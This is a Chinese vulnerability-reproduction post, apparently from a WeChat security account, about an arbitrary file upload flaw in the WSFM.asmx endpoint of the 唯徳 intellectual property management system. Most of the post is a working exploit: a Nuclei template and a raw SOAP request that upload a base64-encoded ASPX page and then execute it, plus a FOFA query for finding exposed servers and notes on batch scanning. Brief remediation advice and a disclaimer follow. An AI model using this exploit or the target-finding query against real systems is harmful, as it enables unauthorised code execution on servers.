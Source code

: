 #  唯徳知识产权管理系统WSFM.asmx接口处存在任意文件上传漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-11-22 00:32  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
唯徳知识产权管理系统WSFM.asmx接口处存在任意文件上传漏洞。  
攻击者可通过上传包含恶意代码的文件到服务器，使恶意文件被执行，从而导致系统被入侵或遭受其他安全风险。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: weidezhishichanquanguanlixitong-WSFM_asmx-fileupload

info:
  name: 唯徳知识产权管理系统WSFM.asmx接口处存在任意文件上传漏洞

  author: kingkong
  severity: high
  metadata:
    fofa-query: body="JSCOMM/language.js"

http:
  - raw:
      - |
        POST /AutoUpdate/WSFM.asmx HTTP/1.1
        Host: {{Hostname}}
        Content-Type: text/xml; charset=utf-8
        Content-Length: length
        SOAPAction: "http://tempuri.org/UploadFileWordTemplate"

        <?xml version="1.0" encoding="utf-8"?>
        <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
          <soap:Body>
            <UploadFileWordTemplate xmlns="http://tempuri.org/">
              <fileByteArray>PCVAIFBhZ2UgTGFuZ3VhZ2U9IkMjIiU+PCUgUmVzcG9uc2UuV3JpdGUoMTExKjExMSk7U3lzdGVtLklPLkZpbGUuRGVsZXRlKFNlcnZlci5NYXBQYXRoKFJlcXVlc3QuVXJsLkFic29sdXRlUGF0aCkpOyAlPgo=</fileByteArray>
              <remotePath>/TemplateFiles/test.aspx</remotePath>
            </UploadFileWordTemplate>
          </soap:Body>
        </soap:Envelope>


      - |
        GET /TemplateFiles/test.aspx HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'status_code_2 == 200'
              - 'contains(body_2,"12321")'
        condition: and

```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：body="JSCOMM/language.js"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187qZKiagicYBaRaa49lqXia77qB833e4pg5L4CqbdDibPbhVhmb1Fyh4rxJw/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187XU4hDmYRu6vpeZvfF50wUKIAdBKAUImWu0dHxQt1FVtBFJNKR6zLVA/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187jqGFGeu7Xwmck1xxoWtsfO8wDDazdiccuDLMhYTnNmuldCbslwRjOeg/640?wx_fmt=png&from=appmsg "")  
  
访问验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187f8ZDt78nO3gloVR2zfNT5bGJyaNvpyiboDqGgciaI7hpNURAlM7wtDuQ/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
POST /AutoUpdate/WSFM.asmx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_13_7) AppleWebKit/570.18 (KHTML, like Gecko) Version/13.0 Safari/570.18
Connection: close
Content-Length: 1147
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/UploadFileWordTemplate"
Accept-Encoding: gzip

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFileWordTemplate xmlns="http://tempuri.org/">
      <fileByteArray>PCVAIFBhZ2UgTGFuZ3VhZ2U9IkMjIiU+PCUgUmVzcG9uc2UuV3JpdGUoMTExKjExMSk7U3lzdGVtLklPLkZpbGUuRGVsZXRlKFNlcnZlci5NYXBQYXRoKFJlcXVlc3QuVXJsLkFic29sdXRlUGF0aCkpOyAlPgo=</fileByteArray>
      <remotePath>/TemplateFiles/test.aspx</remotePath>
    </UploadFileWordTemplate>
  </soap:Body>
</soap:Envelope>


GET /TemplateFiles/test.aspx HTTP/1.1
Host:
```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187PqPfcoG73cictyKIu8B7ibBNIPCmib8PtYgLQCLA9quBQAaNhpMyLrGGg/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、文件类型验证：仅允许上传特定类型的文件，例如图像、文档等，并拒绝可执行文件或其他潜在的恶意文件类型。  
  
2、文件大小限制：限制上传文件的大小，以防止恶意用户上传过大的文件导致服务器资源耗尽。  
  
3、文件名处理：对上传的文件进行重命名，避免使用用户提供的文件名，以防止路径遍历攻击。  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  
  
